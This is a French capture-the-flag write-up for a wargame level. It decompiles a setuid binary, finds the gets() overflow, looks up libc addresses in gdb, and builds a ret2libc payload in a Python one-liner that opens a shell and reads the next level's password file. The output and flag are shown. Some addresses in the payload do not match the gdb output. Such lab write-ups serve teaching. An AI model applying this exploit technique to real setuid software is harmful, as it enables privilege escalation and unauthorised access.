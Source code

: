 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```
$ ./level2

```

Il ne répond qu'avec un input :

```
$ ./level2
da
da
```

Je décide à partir de ce niveau d'utiliser les logiciels de décompilation présent sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01).
En lui passant le binaire au préalable téléchargé, `Ghidra` me procure le code 
suivant :

```c
void p() {
  uint unaff_retaddr;
  char buffer[76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void) {
  p();
  return;
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

`Dogbolt` me propose aussi la version d'`Hexray` :

```c
char *p() {
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

Etant donné qu'aucun appel à `exec` ne semble être fait dans l'ensemble du code décompilé, je me penche sur un type d'attaque appellé [Ret2Libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) et y trouve un schéma explicatif décrivant l'aspect du payload infecté nécessaire.

Afin d'exploiter `gets()`, je note d'abord que le buffer 'non-exploitable' est de 76 bytes d'après l'analyse par `Ghidra`.

Je note que la version d'`Hexray` spécifie que :

```c
unsigned int retaddr; // [esp+6Ch] [ebp+4h]
```

La partie `ebp+4` m'indique que la valeur de `retaddr` se trouve à `ebp + 4`.

`ebp` correspondant à un pointeur sur la frame de la stack actuelle, cela signifie que l'adresse de retour de `p` se trouve 4 bytes plus loin que `ebp`. Je dois donc ajouter 4 bytes à mon payload infecté afin qu'il fasse 80 bytes, et que les 4 prochains pointent sur `retaddr`.

Je compose donc mon payload infecté avec les informations suivantes :

- 80 bytes de `NOP` (`\x90`) qui correspondent à des instructions de ne rien faire et s'assure du bon alignement de la mémoire

- L'adresse de retour de `p` (trouvé avec `gdb` puis `disas main`) : `0x0804853e`

- Une adresse vers `system()` dans la `libc`

- Une adresse vers `exit()` dans la `libc`

- Une adresse vers `"bin/sh"` dans la `libc`


Pour trouver les trois dernières adresses, j'utilise `gdb` après avoir mis un `breakpoint` et avoir lancé le programme, afin de regarder sa mémoire :

```
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt
...

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
...

# /bin/sh
(gdb) info proc mappings
...
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of system
+ "\x08\x04\x83\xd0"[::-1] # <- return address of exit
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

